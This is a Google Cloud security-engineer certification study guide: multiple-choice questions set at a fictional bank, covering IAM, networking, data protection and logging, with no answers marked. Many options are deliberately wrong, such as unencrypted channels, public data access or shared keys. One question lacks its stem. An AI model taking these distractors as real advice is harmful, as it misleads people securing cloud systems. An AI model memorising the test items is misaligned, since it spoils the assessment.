Professional Cloud Security Engineer Certification Learning Path
01 Preparing for Your Professional Cloud Security Engineer Journey
Introduction
Configuring Access Within a Cloud Solution Environment
Diagnostic questions
Cymbal Bank recently discovered service account key misuse in one of the teams during a security audit. As a precaution, going forward you do not want any team in your organization to generate new external service account keys. You also want to restrict every new service account’s usage to its associated Project. What should you do?
Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Under Policy Enforcement, select Merge with parent. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountLienRemoval.
Run the gcloud resource-manager org-policies enable-enforce command with the constraints iam.disableServiceAccountKeyCreation, and iam.disableCrossProjectServiceAccountUsage and the Project IDs you want the constraints to apply to.
Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Customize the applied to property, and set Enforcement to ‘On’. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountUsage.
Run the gcloud resource-manager org-policies allow command with the boolean constraints iam.disableServiceAccountKeyCreation and iam.disableCrossProjectServiceAccountUsage with Organization ID.
Cymbal Bank publishes its APIs through Apigee. Cymbal Bank has recently acquired ABC Corp, which uses a third-party identity provider. You have been tasked with connecting ABC Corp’s identity provider to Apigee for single sign-on (SSO). You need to set up SSO so that Google is the service provider. You also want to monitor and log high-risk activities. Which two choices would you select to enable SSO?
Use openssl to generate public and private keys. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.
Review Network mapping results, and assign SAML profiles to required users.
Review Network mapping results, and assign SSO profiles to required users.
Use openssl to generate a private key. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Workspace Admin Console and upload the certificate.
Use openssl to generate public and private keys. Store the public key in an X.509 certificate, and encrypt using RSA or DSA for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.
Cymbal Bank has certain default permissions and access for their analyst, finance, and teller teams. These teams are organized into groups that have a set of role-based IAM permissions assigned to them. After a recent acquisition of a small bank, you find that the small bank directly assigns permissions to their employees in IAM. You have been tasked with applying Cymbal Bank’s resource hierarchy to the small bank. Employees will need access to Google Cloud services. What should you do?
Reset all user permissions in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the groups.
Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create dynamic groups for each of the bank’s teams. Use the dynamic groups’ metadata field for team type to allocate users to their appropriate group with a Python script.
Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create the required Google Groups. Upgrade the Google Groups to Security Groups. Use a Python script to allocate users to the groups.
Leave all user permissions as-is in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the Google Groups.
Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. One folder titled “analytics” contains a Google Cloud Project that contains an App Engine deployment and a Cloud SQL instance.
Create custom roles for all three user types at the project level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.
Assign the basic ‘Editor’ role to the team lead. Create a custom role for the developer. Provide all appengine.* permissions to the developer. Provide the predefined ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the “analytics” folder level.
Assign the basic ‘App Engine Admin’ and ‘Cloud SQL Admin” roles to the team lead. Assign the ‘App Engine Admin’ role to the developer. Assign the ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the analytics project level.
Create custom roles for all three user types at the “analytics” folder level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.
You are an administrator for Cymbal Bank’s Mobile Development Team. You want to control how long different users can access the Google Cloud console, the Cloud SDK, and any applications that require user authorization for Google Cloud scopes without having to reauthenticate. More specifically, you want users with elevated privileges (project owners and billing administrators) to reauthenticate more frequently than regular users at the organization level. What should you do?
Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Assign this role to each project owner and billing administrator.
In the Admin console, select Google Cloud session control and set a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.
Open all Google Cloud projects that belong to Cymbal Bank’s Mobile Development team. Find each project’s Google Cloud session control setting, and configure a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.
Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Create a Google Group that contains all billing administrators and project owners. Apply the custom role to the group.
Cymbal Bank has a team of developers and administrators working on different sets of Google Cloud resources. The Bank’s administrators should be able to access the serial ports on Compute Engine Instances and create service accounts. Developers should only be able to access serial ports. How would you design the organization hierarchy to provide the required access?
Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/compute.disableSerialPortAccess and enforced: true for constraints/iam.disableServiceAccountCreation. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.
Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.
Deny Serial Port Access and Service Account Creation at the Organization level. Create an ‘admin’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘dev’ folder inside the ‘admin’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.
Allow Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/iam.disableServiceAccountCreation. Create another ‘admin’ folder that inherits from the parent inside the organization node. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.
Cymbal Bank has acquired a non-banking financial company (NBFC). This NBFC uses Active Directory as their central directory on an on-premises Windows Server. You have been tasked with migrating all the NBFC users and employee information to Cloud Identity. What should you do?
Use Cloud VPN to connect the on-premises network to your Google Cloud environment. Select an on-premises domain-joined Windows Server. On the domain-joined Windows Server, run Configuration Manager and Google Cloud Directory Sync. Use Cloud VPN’s encrypted channel to transfer users from the on-premises Active Directory to Cloud Identity.
Run Configuration Manager on a Compute Engine instance. Copy the resulting configuration file from this machine onto a new Compute Engine instance to keep the production environment separate from the staging environment. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on this new instance. Connect to the on-premises Windows Server environment from the new instance, and migrate users to Cloud Identity.
Run Microsoft System Center Configuration Manager (SCCM) on a Compute Engine instance. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on the Compute Engine instance. Connect to the on-premises Windows Server environment from the instance, and migrate users to Cloud Identity.
Select an on-premises domain-joined Windows Server. Run Configuration Manager on the domain-joined Windows Server, and copy the resulting configuration file to a Compute Engine instance. Run Google Cloud Directory Sync on the Compute Engine instance over the internet, and use Cloud VPN to sync users from the on-premises Active Directory to Cloud Identity.
Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. Each product folder contains one Google Cloud Project, but more may be added. Each project contains an App Engine deployment. Cymbal Bank has hired a new technical product manager and a new web developer. The technical product manager must be able to interact with and manage all services in projects that roll up to the Engineering Department folder. The web developer needs read-only access to App Engine configurations and settings for a specific product. How should you provision the new employees’ roles into your hierarchy following principles of least privilege?
Assign the Project Owner role in each individual project to the technical product manager. Assign the App Engine Deployer role in each individual project to the web developer.
Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Create a Custom Role in the product folder that the web developer needs access to. Add the appengine.versions.create and appengine.versions.delete permissions to that role, and assign it to the web developer.
Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Assign the App Engine Deployer role at the specific product’s folder level to the web developer.
Assign the Project Editor role in each individual project to the technical product manager. Assign the Project Editor role in each individual project to the web developer.
Cymbal Bank is divided into separate departments. Each department is divided into teams. Each team works on a distinct product that requires Google Cloud resources for development. How would you design a Google Cloud organization hierarchy to best match Cymbal Bank’s organization structure and needs?
Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Add Projects to the Product folders.
Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Under each Product, create Teams folders. In the Teams folder, add Projects.
Create an Organization node. Under the Organization node, create Department folders. Under each Department, create a Teams folder. Under each Team, create Product folders. Add Projects to the Product folders.
Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Teams folders. Add Projects to the Teams folders.
Cymbal Bank leverages Google Cloud storage services, an on-premises Apache Spark Cluster, and a web application hosted on a third-party cloud. The Spark cluster and web application require limited access to Cloud Storage buckets and a Cloud SQL instance for only a few hours per day. You have been tasked with sharing credentials while minimizing the risk that the credentials will be compromised. What should you do?
Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as delegated requests, and share the short-lived service account credential as a JWT.
Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as direct requests and share the service account key.
Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as a delegated request, and share the service account key.
Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as a direct request, and share the short-lived service account credentials as XML tokens.
Knowledge Check
Which tool will Cymbal Bank use to synchronize their identities from their on-premise identity management system to Google Cloud?
Service Accounts
Cloud Identity
Active Directory
Google Cloud Directory Sync
Which feature of Google Cloud will Cymbal Bank use to control the source locations and times that authorized identities will be able to access resources?
IAM Conditions
Identity-aware Proxy
Service Accounts
IAM Roles
Securing Communications and Establishing Boundary Protection
Diagnostic questions
Cymbal Bank is releasing a new loan management application using a Compute Engine managed instance group. External users will connect to the application using a domain name or IP address protected with TLS 1.2. A load balancer already hosts this application and preserves the source IP address. You are tasked with setting up the SSL certificate for this load balancer. What should you do?
Create a Google-managed SSL certificate. Attach a global dynamic external IP address to the internal Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.
Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create a TCP proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.
Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an SSL proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.
Create a Google-managed SSL certificate. Attach a global static external IP address to the global external Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.
You have recently joined Cymbal Bank as a cloud engineer. You created a custom VPC network, selecting to use the automatic subnet creation mode and nothing else. The default network still exists in your project. You create a new Linux VM instance and select the custom VPC as the network interface. You try to SSH into your instance, but you are getting a “connection failed” error. What answer best explains why you cannot SSH into the instance?
You did not set up any firewall rules on your custom VPC network. While the default VPC comes with a predefined firewall rule that allows SSH traffic, these need to be added to any custom VPCs.
You should have used the default network when setting up your instance. While custom networks support instance creation, they should only be used for internal communication.
You should have deleted the default network. When you have multiple VPCs in your project, Compute Engine can’t allow you to connect because overlapping IP ranges prevent the API from establishing a root connection.
You should have used custom subnet creation mode. Since the default VPC still exists, automatic mode created subnets in the same regions, which led to overlapping IP addresses.
Cymbal Bank has published an API that internal teams will use through the Application Load Balancer. You need to limit the API usage to 200 calls every hour. Any exceeding usage should inform the users that servers are busy. Which gcloud command would you run to throttle the load balancing for the given specification?
gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges="" --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-500 --enforce-on-key=IP
gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=60 --conform-action=deny --exceed-action=deny-404 --enforce-on-key=HTTP-HEADER
gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=deny --exceed-action=deny-403 --enforce-on-key=HTTP-HEADER
gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-429 --enforce-on-key=HTTP-HEADER
An external audit agency needs to perform a one-time review of Cymbal Bank’s Google Cloud usage. The auditors should be able to access a Default VPC containing BigQuery, Cloud Storage, and Compute Engine instances where all the usage information is stored. You have been tasked with enabling the access from their on-premises environment, which already has a configured VPN. What should you do?
Use Partner Interconnect. Configure an encrypted tunnel in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and A records for private.googleapis.com.
Use a Cloud VPN tunnel. Use Cloud DNS to create DNS zones and records for *.googleapis.com. Set up on-premises routing with Cloud Router. Use Cloud Router custom route advertisements to announce routes for Google Cloud destinations.
Use a Cloud VPN tunnel. Use your DNS provider to create DNS zones and records for private.googleapis.com. Connect the DNS provider to your on-premises network. Broadcast the request from the on-premises environment. Use a software-defined firewall to manage incoming and outgoing requests.
Use Dedicated Interconnect. Configure a VLAN in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and records for restricted.googleapis.com and private.googleapis.com. Set up on-premises routing with Cloud Router. Add custom static routes in the VPC to connect individually to BigQuery, Cloud Storage, and Compute Engine instances.
Cymbal Bank’s Customer Details API runs on a Compute Engine instance with only an internal IP address. Cymbal Bank’s new branch is co-located outside the Google Cloud points-of-presence (PoPs) and requires a low-latency way for its on-premises apps to consume the API without exposing the requests to the public internet. Which solution would you recommend?
Use Carrier Peering. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.
Use Partner Interconnect. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.
Use a Content Delivery Network (CDN). Establish direct peering with one of Google’s nearby edge-enabled PoPs.
Use Dedicated Interconnect. Establish direct peering with one of Google’s nearby edge-enabled PoPs.
Your organization has a website running on Compute Engine. This instance only has a private IP address. You need to provide SSH access to an on-premises developer who will debug the website from the authorized on-premises location only. How do you enable this?
Use the default VPC’s firewall. Open port 22 for TCP protocol using the Google Cloud Console.
Use SOCKS proxy over SSH. Set up an SSH tunnel to one of the hosts in the network. Create the SOCKS proxy on the client side.
Set up Cloud VPN. Set up an unencrypted tunnel to one of the hosts in the network. Create outbound or egress firewall rules. Use the private IP address to log in using a gcloud ssh command.
Use Identity-Aware Proxy (IAP). Set up IAP TCP forwarding by creating ingress firewall rules on port 22 for TCP using the gcloud command.
Cymbal Bank has designed an application to detect credit card fraud that will analyze sensitive information. The application that’s running on a Compute Engine instance is hosted in a new subnet on an existing VPC. Multiple teams who have access to other VMs in the same VPC must access the VM. You want to configure the access so that unauthorized VMs or users from the internet can’t access the fraud detection VM. What should you do?
Use target filtering. Create a tag called ‘app’, and assign the tag to both the source and the target. Create a firewall rule to allow all ingress communication on this tag.
Use subnet isolation. Create a service account for the fraud detection engine. Create service accounts for each of the teams’ Compute Engine instances that will access the engine. Add a firewall rule using: gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network
Use target filtering. Create two tags called ‘app’ and ‘data’. Assign the ‘app’ tag to the Compute Engine instance hosting the Fraud Detection App (source), and assign the ‘data’ tag to the other Compute Engine instances (target). Create a firewall rule to allow all ingress communication on this tag.
Use subnet isolation. Create a service account for the fraud detection VM. Create one service account for all the teams’ Compute Engine instances that will access the fraud detection VM. Create a new firewall rule using:gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network
Cymbal Bank needs to connect its employee MongoDB database to a new human resources web application on the same network. Both the database and the application are autoscaled with the help of Instance templates. As the Security Administrator and Project Editor, you have been tasked with allowing the application to read port 27017 on the database. What should you do?
Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account
Create a user account for the database admin and a service account for the application. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-admin-user-account
Create user accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --deny UDP:27017 --source-service-accounts web-application-user-account --target-service-accounts database-admin-user-account
Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow ICMP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account
The data from Cymbal Bank’s loan applicants resides in a shared VPC. A credit analysis team uses a CRM tool hosted in the App Engine standard environment. You need to provide credit analysts with access to this data. You want the charges to be incurred by the credit analysis team. What should you do?
Add egress firewall rules to allow SSH and/or RDP ports for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the IP range of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.
Add ingress firewall rules to allow NAT and Health Check ranges for App Engine standard environment in the Shared VPC network. Create a server-side connector in the Host Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.
Add egress firewall rules to allow TCP and UDP ports for the App Engine standard environment in the Shared VPC network. Create either a client-side connector in the Service Project or a server-side connector in the Host Project using the IP Range or Project ID of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.
Add ingress firewall rules to allow NAT and Health Check ranges for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.
An ecommerce portal uses Google Kubernetes Engine to deploy its recommendation engine in Docker containers. This cluster instance does not have an external IP address. You need to provide internet access to the pods in the Kubernetes cluster. What configuration would you add?
Cloud NAT gateway, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster
Cloud DNS, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster
Nginx load balancer, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster
Cloud VPN, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster
Knowledge Check
Which tool will Cymbal Bank use to enforce authentication and authorization for services deployed to Google Cloud?
Firewall rules
Google Cloud Armor
Identity-Aware proxy
Application Load Balancer
How will Cymbal Bank enable resources with only internal IP addresses to make requests to the Internet?
Google private access
Dedicated Interconnect
Cloud NAT
Shared VPC
Ensuring Data Protection
Diagnostic questions
Cymbal Bank has hired a data analyst team to analyze scanned copies of loan applications. Because this is an external team, Cymbal Bank does not want to share the name, gender, phone number, or credit card numbers listed in the scanned copies. You have been tasked with hiding this PII information while minimizing latency. What should you do?
Use the Cloud Data Loss Prevention (DLP) API to make redact image requests. Provide your project ID, built-in infoTypes, and the scanned copies when you make the requests.
Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Data Loss Prevention (DLP) API with regular expressions.
Use the Cloud Vision API to perform text extraction from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.
Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.
Cymbal Bank uses Google Kubernetes Engine (GKE) to deploy its Docker containers. You want to encrypt the boot disk for a cluster running a custom image so that the key rotation is controlled by the Bank. GKE clusters will also generate up to 1024 randomized characters that will be used with the keys with Docker containers. What steps would you take to apply the encryption settings with a dedicated hardware security layer?
Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the Google Cloud Console to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.
Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the kubectl command to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.
Create a new GKE cluster with customer-managed encryption and HSM enabled. Deploy the containers to this cluster. Delete the old GKE cluster. Use Cloud HSM to generate random bytes and provide an additional layer of security.
In the Google Cloud console, navigate to Google Kubernetes Engine. Select your cluster and the boot node inside the cluster. Enable customer-managed encryption. Use Cloud HSM to generate random bytes and provide an additional layer of security.
Cymbal Bank stores customer information in a BigQuery table called ‘Information,’ which belongs to the dataset ‘Customers.’ Various departments of Cymbal Bank, including loan, credit card, and trading, access the information table. Although the data source remains the same, each department needs to read and analyze separate customers and customer-attributes. You want a cost-effective way to configure departmental access to BigQuery to provide optimal performance. What should you do?
Create separate datasets for each department. Create authorized functions in each dataset to perform required aggregations. Write transformed data to new tables for each department separately. Provide the bigquery.dataViewer role to each department’s required users.
Create an authorized dataset in BigQuery’s Explorer panel. Write Customers’ table metadata into a JSON file, and edit the file to add each department’s Project ID and Dataset ID. Provide the bigquery.user role to each department’s required users.
Secure data with classification. Open the Data Catalog Taxonomies page in the Google Cloud Console. Create policy tags for required columns and rows. Provide the bigquery.user role to each department’s required users. Provide policy tags access to each department separately.
Create separate datasets for each department. Create views for each dataset separately. Authorize these views to access the source dataset. Share the datasets with departments. Provide the bigquery.dataViewer role to each department’s required users.
Cymbal Bank calculates employee incentives on a monthly basis for the sales department and on a quarterly basis for the marketing department. The incentives are released with the next month’s salary. Employee’s performance documents are stored as spreadsheets, which are retained for at least one year for audit. You want to configure the most cost-effective storage for this scenario. What should you do?
Import the spreadsheets into Cloud Storage and create NoSQL tables. Use App Engine cron jobs to run monthly for Sales and quarterly for Marketing. Use a separate job to delete the data after 1 year.
Upload the spreadsheets to Cloud Storage. Select the Nearline storage class for the sales department and Coldline storage for the marketing department. Use object lifecycle management rules to set the storage class to Archival after 365 days. Process the data on BigQuery using jobs that run monthly for Sales and quarterly for Marketing.
Import the spreadsheets to Cloud SQL, and create separate tables for Sales and Marketing. For Table Expiration, set 365 days for both tables. Use stored procedures to calculate incentives. Use App Engine cron jobs to run stored procedures monthly for Sales and quarterly for Marketing.
Import the spreadsheets to BigQuery, and create separate tables for Sales and Marketing. Set table expiry rules to 365 days for both tables. Create jobs scheduled to run every quarter for Marketing and every month for Sales.
Cymbal Bank has a Cloud SQL instance that must be shared with an external agency. The agency’s developers will be assigned roles and permissions through a Google Group in Identity and Access Management (IAM). The external agency is on an annual contract and will require a connection string, username, and password to connect to the database. How would you configure the group’s access?
Use Secret Manager. Use the duration attribute to set the expiry period to one year. Add the secretmanager.secretAccessor role for the group that contains external developers.
Use Secret Manager. Use the resource attribute to set a key-value pair with key as duration and values as expiry period one year from now. Add secretmanager.viewer role for the group that contains external developers.
Use Secret Manager for the connection string and username, and use Cloud Key Management Service for the password. Use tags to set the expiry period to the timestamp one year from now. Add secretmanager.secretVersionManager and secretmanager.secretAccessor roles for the group that contains external developers.
Use Cloud Key Management Service. Use the destination IP address and Port attributes to provide access for developers at the external agency. Remove the IAM access after one year and rotate the shared keys. Add cloudkms.cryptoKeyEncryptorDecryptor role for the group that contains the external developers.
Cymbal Bank needs to migrate existing loan processing applications to Google Cloud. These applications transform confidential financial information. All the data should be encrypted at all stages, including sharing between sockets and RAM. An integrity test should also be performed every time these instances boot. You need to use Cymbal Bank’s encryption keys to configure the Compute Engine instances. What should you do?
Create a Confidential VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.
Create a Confidential VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.
Create a Shielded VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.
Create a Shielded VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.
Cymbal Bank needs to statistically predict the days customers delay the payments for loan repayments and credit card repayments. Cymbal Bank does not want to share the exact dates a customer has defaulted or made a payment with data analysts. Additionally, you need to hide the customer name and the customer type, which could be corporate or retail. How do you provide the appropriate information to the data analysts?
Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with a custom dictionary.
Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with a custom dictionary.
Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with regular expression.
Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with regular expression.
You are tasked with developing an AI system on Google Cloud for a telecommunications business. This AI system will conduct sentiment analysis on conversations agents have with customers, and provide conversational recommendations to improve customer satisfaction in the future. What AI/ML-specific security controls do you need to plan for when developing this system?
AI systems are more interconnected than non-AI systems. Prepare for new attack vectors, as attackers can exploit vulnerabilities in one system to attack another.
Leverage an AI model-specific threat detection scanner. Threats between AI systems and non-AI systems have very little in common.
Deploy your AI solution using managed instance groups (MIGs). These have baked in security controls specific to running AI workloads.
Select Google Cloud AI services that leverage a PaaS model. These are the only ones that can guarantee a secure-by-design foundation.
You're building a machine learning model on Google Cloud. You're choosing between two options: managing the infrastructure yourself (IaaS) or using Google's managed services (PaaS). To ensure the best security posture for both the model and its data, which TWO factors should you prioritize when defining security requirements for each hosting option?
Granular access controls and permissions
Compliance with internal security policies
Data location and residency restrictions
Network traffic inspection and intrusion detection
Physical server hardening and security patches
You are building an AI model on Google Cloud to analyze customer data and predict purchase behavior. This model will have access to sensitive information like purchase history and demographics. To protect this data and prevent misuse of the model, what THREE security controls are most important to implement?
Store all model training data in BigQuery with public access for transparency.
Configure IAM roles to grant full access to the model for all Google Cloud users.
Monitor the model's performance for anomalies and biases, then manually intervene if needed.
Enable Google Cloud Armor on your deployed model to block malicious requests.
Deploy the model in a region with the highest data security standards.
Knowledge Check
What feature will allow Cymbal Bank to delete or change the storage class of objects in Cloud Storage buckets?
Rotation periods
Retention policies
Lifecycle management rules
Object versioning
Which tool will Cymbal Bank use to scan for, detect, and optionally transform sensitive data to prevent exposure?
Sensitive Data Protection
Secret Manager
Google Cloud Armor
VPC service controls
Managing Operations
Diagnostic questions
The loan application from Cymbal Bank’s lending department collects credit reports that contain credit payment information from customers. According to bank policy, the PDF reports are stored for six months in Cloud Storage, and access logs for the reports are stored for three years. You need to configure a cost-effective storage solution for the access logs. What should you do?
Set up a logging export dataset in BigQuery to collect data from Cloud Logging and the Security Command Center. Create table expiry rules to delete logs after three years.
Set up a logging export bucket in Cloud Storage to collect data from Cloud Audit Logs. Configure object lifecycle management rules to delete logs after three years.
Set up a logging export dataset in BigQuery to collect data from Cloud Logging and Cloud Monitoring. Create table expiry rules to delete logs after three years.
Set up a logging export bucket in Cloud Storage to collect data from the Security Command Center. Configure object lifecycle management rules to delete logs after three years.
Cymbal Bank uses Docker containers to interact with APIs for its personal banking application. These APIs are under PCI-DSS compliance. The Kubernetes environment running the containers will not have internet access to download required packages. How would you automate the pipeline that is building these containers?
Create a Dockerfile with container definition and cloudbuild.yaml file. Use Cloud Build to build the image from Dockerfile. Upload the built image to a Google Container registry and Dockerfile to a Git repository. In the cloudbuild.yaml template, include attributes to tag the Git repository path with a Google Kubernetes Engine cluster. Create a trigger in Cloud Build to automate the deployment using the Git repository.
Create a Dockerfile with a container definition and a Cloud Build configuration file. Use the Cloud Build configuration file to build and deploy the image from Dockerfile to a Google Container registry. In the configuration file, include the Google Container Registry path and the Google Kubernetes Engine cluster. Upload the configuration file to a Git repository. Create a trigger in Cloud Build to automate the deployment using the Git repository.
Build a foundation image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine (GKE) cluster. Add the required users and groups to the GKE project.
Build an immutable image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine Cluster (GKE). Add the required users and groups to the GKE project.
Cymbal Bank runs a Node.js application on a Compute Engine instance. Cymbal Bank needs to share this base image with a ‘development’ Google Group. This base image should support secure boot for the Compute Engine instances deployed from this image. How would you automate the image creation?
Prepare a shell script. Add the command gcloud compute instances stop with the Node.js instance name. Set up certificates for secure boot. Add gcloud compute images create, and specify the Compute Engine instance’s persistent disk and zone and the certificate files. Add gcloud compute images add-iam-policy-binding and specify the ‘development’ group.
Prepare a shell script. Add the command gcloud compute instances start to the script to start the Node.js Compute Engine instance. Set up Measured Boot for secure boot. Add gcloud compute images create, and specify the persistent disk and zone of the Compute Engine instance.
Start the Compute Engine instance. Set up certificates for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path and the certificates.
Stop the Compute Engine instance. Set up Measured Boot for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine instance and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path.
Cymbal Bank has suffered a remote botnet attack on Compute Engine instances in an isolated project. The affected project now requires investigation by an external agency. An external agency requests that you provide all admin and system events to analyze in their local forensics tool. You want to use the most cost-effective solution to enable the external analysis. What should you do?
Use Cloud Monitoring and Cloud Logging. Filter Cloud Monitoring to view only system and admin logs. Expand the system and admin logs in Cloud Logging. Use Pub/Sub to export the findings from Cloud Logging to the external agency’s forensics tool or storage.
Use Event Threat Detection. Trigger the IAM Anomalous Grant detector to detect all admins and users with admin or system permissions. Export these logs to the Security Command Center. Give the external agency access to the Security Command Center.
